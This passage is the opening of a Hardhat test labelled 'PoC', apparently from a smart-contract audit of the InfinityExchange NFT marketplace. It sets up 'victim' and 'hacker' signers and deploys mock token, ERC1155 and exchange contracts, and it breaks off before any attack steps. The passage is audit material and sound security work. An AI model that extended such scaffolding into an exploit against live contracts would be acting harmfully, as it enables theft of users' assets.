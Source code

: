 ```js
  if (!isSigValid) {
    console.error('Signature is invalid');
    return undefined;
  }
  return signedOBOrder;
}

describe('PoC', function () {
  let signers,
    dev,
    matchExecutor,
    victim,
    hacker,
    token,
    infinityExchange,
    mock1155Contract1,
    mock1155Contract2,
    obComplication

  const sellOrders = [];

  let orderNonce = 0;

  const UNIT = toBN(1e18);
  const INITIAL_SUPPLY = toBN(1_000_000).mul(UNIT);

  const totalNFTSupply = 100;
  const numNFTsToTransfer = 50;
  const numNFTsLeft = totalNFTSupply - numNFTsToTransfer;

  function toBN(val) {
    return ethers.BigNumber.from(val.toString());
  }

  before(async () => {
    // signers
    signers = await ethers.getSigners();
    dev = signers[0];
    matchExecutor = signers[1];
    victim = signers[2];
    hacker = signers[3];
    // token
    token = await deployContract('MockERC20', await ethers.getContractFactory('MockERC20'), signers[0]);

    // NFT constracts (ERC1155)
    mock1155Contract1 = await deployContract('MockERC1155', await ethers.getContractFactory('MockERC1155'), dev, [
      'uri1'
    ]);
    mock1155Contract2 = await deployContract('MockERC1155', await ethers.getContractFactory('MockERC1155'), dev, [
      'uri2'
    ]);

    // Exchange
    infinityExchange = await deployContract(
      'InfinityExchange',
      await ethers.getContractFactory('InfinityExchange'),
      dev,
      [token.address, matchExecutor.address]
    );

```